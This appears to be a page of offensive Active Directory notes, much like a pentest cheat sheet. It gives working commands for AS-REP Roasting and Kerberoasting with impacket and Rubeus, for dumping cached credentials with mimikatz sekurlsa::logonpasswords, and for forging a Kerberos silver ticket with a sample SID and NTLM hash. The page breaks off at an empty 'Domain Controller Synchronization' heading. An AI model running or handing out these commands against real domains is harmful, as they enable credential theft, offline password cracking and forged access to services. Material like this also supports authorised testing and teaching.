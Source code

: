 Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as _AS-REP Roasting_.

### impacket
```
impacket-GetNPUsers domain.com/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```

### Rubeus
```
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

### Rubeus
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
### impacket
```
impacket-GetUserSPNs -request -dc-ip 192.168.10.10. domain.com/douglas
```

## Silver Tickets

We need to collect three pieces of information:
- SPN password hash
- Domain SID
- Target SPN

Using mimikatz to extract cached AD credentials:
```
privilege::debug
```

```
sekurlsa::logonpasswords
```
From the dump presented from mimikatz, we can get the sid for our admin, the service for the silver ticket and the user

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:domain.com /ptt /target:website.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:admin
```

Now, confirm with `klist` that we have a service ticket

## Domain Controller Synchronization
